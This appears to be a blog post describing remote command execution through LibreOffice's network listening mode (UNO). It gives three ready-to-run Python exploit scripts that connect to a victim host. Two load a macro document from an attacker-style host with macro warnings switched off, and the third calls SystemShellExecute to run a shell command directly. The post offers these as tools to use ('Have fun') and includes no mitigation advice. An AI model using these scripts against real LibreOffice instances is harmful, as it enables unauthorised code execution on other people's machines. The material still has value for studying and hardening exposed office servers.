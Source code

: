 ```yaml
---
layout: post
title: LibreOffice listening mode RCE
---
```



Executing commands via LibreOffice listening mode

LibreOffice (as well as OpenOffice and other relatives) allows users to control the program remotely via [listening mode](https://wiki.openoffice.org/wiki/Documentation/DevGuide/ProUNO/Starting_OpenOffice.org_in_Listening_Mode). You can use this mode on any supported platform (Windows, Linux, Mac OS X).
Everything you need us start your office program with the following command:
`soffice -accept=socket,host=0,port=2002;urp;`

Office’s listening mode uses [Universal Network Objects (UNO)](https://www.openoffice.org/udk/common/man/uno.html) component model.
You can write your own scripts to use it with python3-uno package.
There are several ways to execute command on remote system using UNO in LibreOffice:
1. Open a document with macro in it with *MacroExecMode* set to [ALWAYS\_EXECUTE\_NO\_WARN](https://www.openoffice.org/api/docs/common/ref/com/sun/star/document/MacroExecMode.html#ALWAYS_EXECUTE_NO_WARN)
2. Open a document with macro and then call it with [getScript](https://www.openoffice.org/api/docs/common/ref/com/sun/star/script/provider/XScriptProvider.html#getScript) method
3. [SystemShellExecute](https://www.openoffice.org/api/docs/common/ref/com/sun/star/system/XSystemShellExecute.html#execute) method

Each method can be used with macro security set to **Very High**.

## ALWAYS\_EXECUTE\_NO\_WARN method
Create a document with macro in it. You can use MSF’s */exploit/multi/misc/openoffice_document_macro* or you can create it by yourself with *Shell* function of Basic language.
 
Assign your macro to document opening function via *Tools -> Customize -> Open Document*.

You don't need to upload your document with macro to host running LibreOffice, you can call it by URL instead.

```python
#!/usr/bin/env python3
import uno
docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"
from com.sun.star.beans import PropertyValue
local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)
inProps = []
prop = PropertyValue()
prop.Name = "MacroExecutionMode"
prop.Value = 4 # ALWAYS_EXECUTE_NO_WARN
inProps.append(prop)  
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple(inProps))
document.dispose()
```
 

## getScript method
 
Create a document with macro as in previous method, then directly call a macro inside the document with *getScript* and *invoke*.

```python
#!/usr/bin/env python3
import uno
docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"
from com.sun.star.beans import PropertyValue
local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)
inProps = [] 
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple(inProps))
model = desktop.getCurrentComponent()
sp = model.getScriptProvider()
sc = sp.getScript("vnd.sun.star.script:Standard.Module1.Main?language=Basic&location=document")
sc.invoke((),(),())
document.dispose()
```

## SystemShellExecute method

The best way to execute your command is to use *execute* method of *XSystemShellExecute* interface of API. You don't even need to create a document to use it.

```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue
local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
rc = context.ServiceManager.createInstanceWithContext("com.sun.star.system.SystemShellExecute", context)
rc.execute("/usr/bin/touch", "/tmp/PWNED", 1)
```

Have fun.



